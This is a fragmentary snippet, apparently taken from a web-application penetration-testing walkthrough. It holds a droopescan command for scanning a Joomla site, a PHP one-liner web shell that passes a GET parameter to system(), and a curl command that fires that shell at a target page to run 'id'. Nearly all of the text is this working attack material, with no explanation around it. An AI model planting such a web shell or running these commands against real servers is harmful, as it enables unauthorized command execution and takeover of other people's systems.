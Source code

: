 `droopescan scan joomla --url http://<domainnameoripaddress>`

`<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>`

`curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"`